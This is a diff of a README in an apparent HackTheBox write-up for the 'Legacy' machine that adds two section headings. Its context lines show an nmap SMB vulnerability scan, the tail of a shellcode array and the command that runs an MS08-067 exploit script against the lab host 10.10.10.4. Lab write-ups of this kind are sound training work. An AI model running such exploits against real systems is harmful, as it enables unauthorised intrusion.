

Before and after one commit to zmiddle/htb, a Markdown page: legacy/README.md, 2 parts joined by grey strips. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/legacy/README.md
+++ b/legacy/README.md
@@ -64,7 +64,7 @@ Host script results:
 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 # Nmap done at Thu May 18 22:26:02 2023 -- 1 IP address (1 host up) scanned in 33.82 seconds
 ```
-
+## Finding vulnerabilities
 Scanning for vulnerabilities:
 ```
 # Nmap 7.93 scan initiated Thu May 18 22:27:02 2023 as: nmap -Pn -n -sV -p 135,139,445 --script smb-vuln* -oN smb_vuln 10.10.10.4
@@ -157,7 +157,7 @@ shellcode=(
     "\xdb\xe8\xd7\xb1\xfa\x78\x68"
 )
 ```
-
+## Exploitation
 Run the exploit.
 ```
 python2.7 ms08_067_2018_2.7.py 10.10.10.4 6 445
````
